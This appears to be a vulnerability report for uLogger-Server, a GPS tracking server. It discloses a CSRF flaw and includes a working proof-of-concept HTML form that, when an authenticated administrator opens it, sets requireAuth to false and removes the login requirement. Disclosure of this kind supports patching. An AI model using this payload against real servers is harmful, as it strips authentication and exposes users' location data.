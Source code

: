 ## Description
uLogger-Server is a featured GPS tracking server that is developed in PHP and Javascript.  
ulogger-server is vulnerable to CSRF which enables an Auth Bypass.  The following POC, if triggered by an administrator, will disable the authentication requirement on the ulogger-server, allowing unauthanticated users access to the application:
## POC
```
<html><form enctype="application/x-www-form-urlencoded" method="POST" action="http://[uLogger-Server]/utils/saveconfig.php"><table>
<tr><td>requireAuth</td><td><input type="text" value="false" name="requireAuth"></td></tr>
</table><input type="submit" value="http://[uLogger-server]/utils/saveconfig.php"></form></html>
```
This code should be saved to something like csrfpoc.html then opened by an admin authenticated user.  This will disable the authentication requirement
